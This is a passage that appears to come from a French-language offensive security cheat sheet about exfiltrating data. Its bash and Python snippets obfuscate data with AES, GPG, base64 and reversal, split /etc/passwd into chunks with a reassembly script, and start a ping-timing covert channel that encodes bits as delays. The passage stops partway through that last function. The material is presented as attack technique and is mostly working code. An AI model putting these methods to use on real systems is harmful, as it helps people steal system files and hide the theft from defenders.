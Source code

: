 ### Chiffrement et Obfuscation
```bash
# Chiffrement AES
openssl enc -aes-256-cbc -salt -in data.txt -out data.enc -k "password123"

# Chiffrement avec GPG
gpg --symmetric --cipher-algo AES256 data.txt

# Obfuscation simple
base64 -w0 data.txt > data.b64
rev data.txt > data.rev  # Reverse content
```

### Fragmentation et Reassemblage
```bash
# Fragmentation intelligente
python3 << 'EOF'
import os

def fragment_file(filename, max_size=1024*1024):  # 1MB chunks
    with open(filename, 'rb') as f:
        data = f.read()
    
    chunks = []
    for i in range(0, len(data), max_size):
        chunk = data[i:i+max_size]
        chunk_name = f"{filename}.part{i//max_size:03d}"
        
        with open(chunk_name, 'wb') as cf:
            cf.write(chunk)
        chunks.append(chunk_name)
    
    # Créer script de reassemblage
    with open(f"{filename}.reassemble.sh", 'w') as rs:
        rs.write(f"#!/bin/bash\ncat {' '.join(chunks)} > {filename}.restored\n")
    
    return chunks

fragments = fragment_file('/etc/passwd')
print(f"Created {len(fragments)} fragments")
EOF
```

## 🕐 Exfiltration Temporelle

### Timing-based Exfiltration
```bash
# Exfiltration via timing de ping
python3 << 'EOF'
import subprocess
import time
import binascii

def exfil_timing(data, target):
    # Convert data to binary
    binary_data = ''.join(format(ord(c), '08b') for c in data)
    
    for bit in binary_data:
        if bit == '1':
            time.sleep(2)  # Long delay = 1
        else:
            time.sleep(1)  # Short delay = 0
        
```